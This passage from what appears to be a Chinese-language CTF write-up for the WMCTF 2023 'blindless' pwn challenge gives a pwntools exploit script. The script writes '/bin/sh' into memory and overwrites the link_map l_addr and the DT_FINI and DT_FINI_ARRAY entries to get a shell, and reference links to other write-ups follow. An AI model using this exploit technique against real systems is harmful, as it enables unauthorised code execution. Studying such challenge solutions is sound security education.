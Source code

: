 ```plain
ru('code\n')

argv0 = 0x33d968
l_addr = 0x33e190
dt_fini = 0x33e190+0xa8
dt_fini_array = 0x33e190+0x110

payload = b'@' + p32(argv0-0x10) + write(b'/bin/sh\x00')
payload += b'@' + p32(l_addr-argv0-8) + write(p8(0xe0))
payload += b'@' + p32(dt_fini-l_addr-1) + write(p8(0xa8))
payload += b'@' + p32(dt_fini_array-dt_fini-1) + write(p64(0))
payload += b'q'
#dbg()
sl(payload)


itr()
```

​​  
[![](assets/1701612101-2df1d4602b937be823d5472e46e6f4cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914101015-d7f0af92-52a3-1.png)  
​​

‍

### 参考链接：

[WMCTF2023 pwn 部分wp - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/652099671#blindless)

[2023 WMCTF (gitee.io)](https://grxer.gitee.io/2023/08/28/2023wmctf/#blindless)

[WMCTF 2023 Writeup - 星盟安全团队 (xmcve.com)](http://blog.xmcve.com/2023/08/22/WMCTF-2023-Writeup/#title-16)
